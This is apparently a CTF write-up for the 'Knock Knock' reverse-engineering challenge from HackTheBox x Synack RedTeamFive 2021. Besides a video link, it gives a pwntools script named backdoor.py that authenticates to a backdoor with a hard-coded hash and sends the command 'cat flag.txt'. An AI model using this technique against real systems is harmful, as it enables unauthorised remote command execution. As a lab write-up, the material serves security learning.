 ```yaml
---
name: Knock Knock (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Rev
description: Writeup for Knock Knock (rev) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Knock Knock

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/TN1zPbKN_9E/0.jpg)](https://youtu.be/TN1zPbKN_9E?t=1070s "HackTheBox x Synack RedTeamFive 2021: Knock Knock")

## Solution

#### backdoor.py

{% code overflow="wrap" %}
```py
from pwn import *

context.log_level = 'DEBUG'

io = remote('ip', 31337)

cmd = b'command:cat flag.txt'

io.send(b'8f4328c40b1aa9409012c7406129f04b')
io.send(bytes([len(cmd)]))
io.send(cmd)

io.interactive()
```
{% endcode %}
